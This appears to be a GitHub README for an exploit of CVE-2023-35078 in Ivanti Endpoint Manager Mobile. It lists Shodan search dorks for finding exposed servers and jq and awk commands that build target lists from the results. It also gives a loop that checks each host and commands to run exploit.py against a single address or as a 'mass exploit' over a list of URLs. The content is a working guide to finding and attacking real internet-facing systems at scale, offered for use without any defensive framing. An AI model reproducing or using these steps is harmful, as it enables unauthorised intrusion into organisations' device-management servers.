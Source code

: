 # CVE-2023-35078
Ivanti Endpoint Manager Mobile exploit <br/>

- Shodan dorks: <br/>
	  http.favicon.hash:362091310 <br/>
	  http.favicon.hash:545827989 <br/>
	  path=/mifs <br/>

- Transform json to data <br/>

      jq -cr 'select(.http.favicon.hash == 545827989) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
      jq -cr 'select(.http.favicon.hash == 362091310) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
      python shodan-parser.py -o temp_data_file shodan.json
      awk '{print "https://"$0}' temp_data_file > data_file
- How run check. <br/>

   The format of the data_file should be as follows: http://ip_addr:port or https://ip_addr:port <br/> 

      chmod +x check.sh; while read line; do ./check.sh $line; done < data_file

- Setup requirements <br/>

      pip install -r requirements.txt

- Run exploit single address . <br/>

      python exploit.py -u http://
- Run mass exploit . <br/>

      python exploit.py -f urls.txt
